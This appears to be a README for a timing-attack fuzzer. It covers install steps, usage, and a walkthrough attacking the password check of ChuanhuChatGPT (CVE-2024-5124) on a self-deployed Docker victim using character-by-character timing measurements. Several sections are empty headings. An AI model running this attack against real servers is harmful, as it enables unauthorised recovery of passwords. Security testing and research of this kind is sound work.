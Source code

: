 ## I Tutorials:

# I.1/ Build modular-timing-fuzzer

Install dependencies

```bash
virtualenv -p python3 venv3 ;
source venv3/bin/activate &&

pip install argparse requests matplotlib scipy pandas
```

Then run:

```bash
python3 -m pip install build && 
python3 -m build &&
python3 -m pip install -e . &&
python3 -m pip install dist/modular_time_fuzzer_GOGO-0.0.1-py3-none-any.whl --force-reinstall
```

# I.2/ Install From Pypi

Run simply:

```bash
pip install modular-time-fuzzer
```


# I.3/ Usage

`measure` command line permits to choose inputs that will be recorded to the database.
`analyze` command line permits to represent the data collected to a picture graph.

```bash
measure -r 10 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

## II How-to:

# II.1/ developping timing attack against the password verification of Chuanchuangpt (CVE-2024-5124) using a cloud service in background

# II.1.1/ Deploy victim server:

# Install docker

```bash
# Install packages required for the installation

sudo apt-get update
sudo apt install --yes ca-certificates curl
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/debian/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc

# Add the repository to Apt sources:

echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update
# Download GPG key and store repository in the system

curl -fsSL https://download.docker.com/linux/debian/gpg | gpg --dearmor -o /usr/share/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" |tee /etc/apt/sources.list.d/docker.list > /dev/null 
apt update 

# Install Docker packages

sudo apt install --yes docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
```

# Run victim server

```bash
export JSON='{
    "users": [["openai", "isCloseAi"]]
}' ;

export DOCKER_CMD="apt update && apt install --yes git && pip install itsdangerous gradio && echo '${JSON}' > config.json && sed -i 's/share=share/share=True/g' ChuanhuChatbot.py && python3 -u ChuanhuChatbot.py 2>&1 | tee /var/log/application.log"

export DOCKER_RUN='sudo docker run -e language=en_US -it tuchuanhuhuhu/chuanhuchatgpt:20240310 /bin/bash -c "${DOCKER_CMD}"'

tmux new-session -d -s persistent_server "${DOCKER_RUN}"
tmux attach -t persistent_server
```

## II.1.2/ Attack the victim server

If you want to run these two scripts

```bash
measure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

On a cloud backend to ensure it will never exit, install previously mentionned dependencies and run:

```bash
tmux new-session -d -s persistent_session "rm -Rf tmpdir/ && mkdir tmpdir/ ; pmeasure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite' && analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite'"
tmux attach -t persistent_session
```

# III/ API reference for developpers

# IV/ Why using a modular timing attack fuzzer?

Trough there are a lot of similar tool for recording request time such as `tlsfuzzer` or `timeinator`, none of them provide enough flexibility to let the user record it own timing with modularity.

`modular-timing-fuzzer` then has chosen to let the user to script the recording interface in a modular way and then use the output recorded to interpret in in a less but still modular way.

# IV.1 / attacks against passwords authentication with unsecure crypto comparison.

# IV.2 / attacks against assymetric encryption algorithms.

